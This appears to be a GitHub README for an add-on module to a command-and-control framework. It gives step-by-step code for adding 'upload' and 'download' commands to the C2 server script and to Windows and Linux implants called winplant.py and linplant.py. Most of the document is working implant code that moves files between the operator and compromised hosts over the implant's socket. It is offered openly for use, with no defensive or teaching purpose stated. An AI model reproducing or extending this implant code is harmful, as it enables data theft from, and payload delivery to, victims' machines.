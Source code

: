 # File Transfer Module

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

This module adds a function file called transfer.py to the project, which can be used to upload and download files to and from the C2 server.

# Usage

### smtp.py 

1. Create a new folder called "functions", and add the transfer.py file to it. 
2. Inside of the sockserver.py file, add the following imports:
```
import os.path
from functions.transfer import upload_file, download_file
```
3. Inside of the target_comm function of the main script, add the following
```
            elif message[:7] == 'upload ':
                filename = message[7:]
                upload_file(filename)
            elif message[:9] == 'download ':
                filename = message[9:]
                try:
                    if os.path.exists(filename):
                        print('file exists')
                        filename = os.path.basename(filename)
                        download_file(filename)
                    else:
                        response = bytes((response), encoding='utf8')
                        secure_sock.send(response)
                except FileNotFoundError:
                    pass
```
3. Inside of both the winplant.py and linplant.py files, add the following functions:
```
def upload_file(file_name):
    try:
        f = open(file_name, 'wb')
        secure_sock.settimeout(2)
        chunk = secure_sock.recv(8192)
        while chunk:
            f.write(chunk)
            try:
                chunk = secure_sock.recv(8192)
            except socket.timeout as e:
                break
        secure_sock.settimeout(None)
        f.close()
    except Exception as e:
        print(e)


def download_file(file_name):
    try:
        f = open(file_name, 'rb')
        while True:
            try:
                bytes_read = f.read(8192)
                if not bytes_read:
                    break
                secure_sock.send(bytes_read)
            except Exception as e:
                print(e)
    except Exception as e:
        print(e)
```
4. Inside of the session_handler function of both payloads, add the following:
```
            elif message[:7] == 'upload ':
                filename = message[7:]
                filename = os.path.basename(filename)
                upload_file(filename)
            elif message[:9] == 'download ':
                filename = message[9:]
                download_file(filename)
```

### Functionality 
Using the ```upload``` and ```download``` commands followed by the file name to send, you can transfer files to and from.
